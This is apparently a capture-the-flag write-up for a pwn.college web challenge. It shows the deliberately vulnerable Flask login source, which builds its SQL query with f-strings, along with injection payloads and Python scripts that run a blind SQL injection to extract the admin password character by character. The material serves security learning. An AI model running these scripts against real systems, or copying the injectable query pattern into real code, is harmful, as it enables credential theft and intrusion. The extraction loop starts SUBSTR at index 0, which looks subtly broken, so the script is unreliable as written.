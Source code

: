 This level doesn't return anything from the query. So we'll need to make use of the error functionality of the website and try to brute-force the password.

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)

import sqlite3
import tempfile

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()

# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])

# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, 'password' as password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")

    if not username:
        flask.abort(400, "Missing `username` form parameter")

    if not password:
        flask.abort(400, "Missing `password` form parameter")

    try:
        # https://www.sqlite.org/lang_select.html
        query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{ password }'"
        print(f"DEBUG: {query=}")
        user = db.execute(query).fetchone()
    except sqlite3.Error as e:
        flask.abort(500, f"Query: {query}\nError: {e}")

    if not user:
        flask.abort(403, "Invalid username or password")

    flask.session["user"] = username
    return flask.redirect(flask.request.path)

@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Password:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

I tested some simple wildcard brute-force on the `guest` account (which have a known password: `password`).

```
User: guest
Password: ' OR password LIKE 'a%'--
```

This returns an "Invalid username or password" error message since the password of `guest` doesn't start with the letter `a`.

```
User: guest
Password: ' OR password LIKE 'p%'--
```

This logged us in because the password of `guest` does start with the letter `p`. Now comes the brute-force. We can use python to try to brute-force it. We can't really use `LIKE` for this since it's case insensitive.

First, we'll need to figure figure out what the length of the flag is. We'll need to use the `requests` library:

```python
import requests

# parameters
url = "http://challenge.localhost:80"
user_to_guess = "admin"

# find flag length
flag_length = 0
for i in range(1, 100):
    print(f"Checking password length: {i}")
    content = {"username":user_to_guess, "password":f"' OR (SELECT 'a' FROM users WHERE username='{user_to_guess}' and LENGTH(password) > {i}) = 'a'--"}
    res = requests.post(url, data=content)
    if "Invalid" in res.text:
        flag_length = i
        break
print("Flag length: " + str(flag_length))
```

It basically uses the `LENGTH` function in SQL on the flag and check out flag length with the actual flag length. If our flag length is equal to the actual flag length, we'd get an error response, which indicate that we have our flag length.

Now that we have the flag length, we can brute-force it. We'll need to create a set of words to check.

```python
import string
# create word set
word_set = ""
word_set += string.ascii_letters
word_set += string.digits
word_set += "-.{}"
print("Word set: " + word_set)
```

Now we can brute-force it. We just use the `SUBSTR` function to get the `ith` character from the flag and compare it with each one of the characters in our word set. If they match, the response text would not return an invalid message.

```python
# brute-force flag
flag = ""
for i in range(flag_length):
    for letter in word_set:
        content = {"username":user_to_guess, "password":f"' OR (SELECT SUBSTR(password, {i}, 1) FROM users WHERE username = '{user_to_guess}') = '{letter}'--"}
        res = requests.post(url, data=content)
        if "Invalid" not in res.text:
	        flag += letter
	        break
    print(f"Current flag: {flag}")
print("Final flag: " + flag)
```